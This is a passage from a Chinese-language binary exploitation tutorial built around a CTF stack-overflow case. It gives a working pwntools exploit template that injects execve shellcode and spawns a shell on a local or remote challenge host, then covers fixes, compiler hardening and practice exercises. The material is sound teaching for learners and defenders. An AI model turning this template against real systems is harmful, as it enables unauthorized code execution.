| NX + ASLR | ret2plt → 泄露 → ret2libc | 案例二 |
| Canary + NX | 泄露Canary + ret2libc | 案例三 |
| 全部开启 | 栈迁移 + ROP + ret2libc | 案例六 |

### 8.4 自动化与批量利用

在实战中，同一个漏洞可能需要多次触发（例如多阶段攻击）。pwntools提供了模板来简化重复操作：

```python
#!/usr/bin/env python3
"""
自动化EXP模板 — 适用于简单栈溢出
只需修改 OFFSET 和 TARGET_ADDR 即可适配不同目标
"""

from pwn import *

# ========== 配置区 ==========
BINARY   = './vuln'
OFFSET   = 72              # buffer(64) + saved_rbp(8)
HOST     = 'challenge.ctf.com'
PORT     = 1337

# ========== 自动检测 ==========
context.arch = 'amd64'
context.os = 'linux'

elf = ELF(BINARY)

def get_target():
    """本地调试或远程连接"""
    if args.REMOTE:
        return remote(HOST, PORT)
    else:
        return process(BINARY)

def get_buffer_addr():
    """获取buffer地址 — 根据实际情况修改"""
    if args.REMOTE:
        # 远程环境可能需要通过信息泄露获取
        # 或者使用相对偏移
        return 0x0  # 需要根据实际情况填写
    else:
        # 本地调试获取
        return 0x7fffffffe0a0  # GDB调试获取

def exploit():
    p = get_target()
    
    # 生成shellcode
    shellcode = asm(shellcraft.sh())
    assert len(shellcode) <= OFFSET, "Shellcode太大！"
    
    # 获取目标地址
    buffer_addr = get_buffer_addr()
    
    # 构造payload
    payload = shellcode
    payload += b'A' * (OFFSET - len(shellcode))
    payload += p64(buffer_addr)
    
    # 发送payload
    p.recvuntil(b'name: ')
    p.sendline(payload)
    
    # 获得交互式shell
    log.success("Shell已获取！")
    p.interactive()

if __name__ == '__main__':
    exploit()
```

**使用方式：**

```bash
# 本地调试
python3 exploit.py

# 远程攻击
python3 exploit.py REMOTE

# 调试模式（详细日志）
python3 exploit.py DEBUG
```

---

## 第九阶段：防御视角

理解攻击的目的是为了更好地防御。本案例中的漏洞之所以能成功利用，是因为缺少了多层防护。

### 9.1 代码层面的防御

```c
// 修复后的安全代码
#include <stdio.h>
#include <string.h>

void safe_version() {
    char buffer[64];
    printf("Enter your name: ");
    
    // 方法一：使用fgets替代gets，限制读取长度
    if (fgets(buffer, sizeof(buffer), stdin) == NULL) {
        return;  // 读取失败
    }
    
    // 去除fgets可能读入的换行符
    buffer[strcspn(buffer, "\n")] = '\0';
    
    printf("Hello, %s!\n", buffer);
}
```

### 9.2 编译层面的防御

```bash
# 启用所有安全防护的编译命令
gcc -o vuln_safe vuln.c \
    -fstack-protector-all \   # 栈金丝雀
    -pie \                    # 位置无关可执行文件
    -Wl,-z,relro,-z,now \    # Full RELRO
    -D_FORTIFY_SOURCE=2 \     # 缓冲区溢出检测
    -Wformat -Wformat-security  # 格式化字符串警告
```

启用防护后的checksec结果：

```yaml
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

### 9.3 运行时防御

| 防护机制 | 作用 | 本案例中缺失 |
|----------|------|---------------|
| Stack Canary | 检测栈溢出 | ✗ 未启用 |
| NX/DEP | 禁止执行栈上代码 | ✗ 未启用 |
| ASLR | 随机化内存布局 | △ 部分生效 |
| PIE | 随机化程序加载地址 | ✗ 未启用 |
| Full RELRO | 保护GOT表 | ✗ 仅Partial |

---

## 案例总结

### 关键知识点回顾

1. **`gets()`是极度危险的函数** — 永远不要在生产代码中使用
2. **偏移计算是基础** — 使用cyclic pattern + GDB验证，不要纯靠手动计算
3. **检查保护机制** — checksec是第一步，决定了利用策略
4. **栈地址不是固定的** — ASLR会随机化栈地址，需要信息泄露或相对偏移
5. **shellcode有坏字符限制** — 必须检查是否包含输入函数的终止符

### 本案例的利用条件

```text
保护机制状态：
  Stack Canary:  无        → 溢出不会被检测
  NX:            关闭      → 栈可执行，可注入shellcode
  PIE:           关闭      → 代码段地址固定
  ASLR:          开启(栈)  → 栈地址随机，需GDB获取
  RELRO:         Partial   → GOT可写（本案例未利用）

利用方法：Shellcode注入
  1. 确定偏移：cyclic pattern → 72字节
  2. 准备shellcode：execve("/bin/sh")，不含0x0a
  3. 获取buffer地址：GDB调试
  4. 构造payload：shellcode + padding(72-len) + buffer_addr
  5. 发送payload，获得shell
```

### 后续学习路径

完成本案例后，建议按以下顺序继续学习：

1. **案例二：ret2libc** — 当NX开启时如何利用libc中的函数
2. **案例三：泄露Canary** — 当栈金丝雀保护开启时的绕过方法
3. **案例六：ROP链** — 构建完整的ROP链进行复杂攻击
4. **案例八：ORW沙箱绕过** — 当execve被禁止时的替代方案

每进阶一个案例，都会在前一个案例的基础上增加新的防护绕过技术，形成由浅入深的完整学习路径。

***

> **练习建议：** 在完全理解本案例后，尝试以下练习来巩固知识：
> 1. 修改编译参数，分别开启NX和Canary，观察EXP失败的原因
> 2. 将程序编译为32位，编写对应的32位EXP
> 3. 尝试使用ret2system替代shellcode注入
> 4. 在GDB中逐步跟踪整个利用过程，理解每一步的内存变化
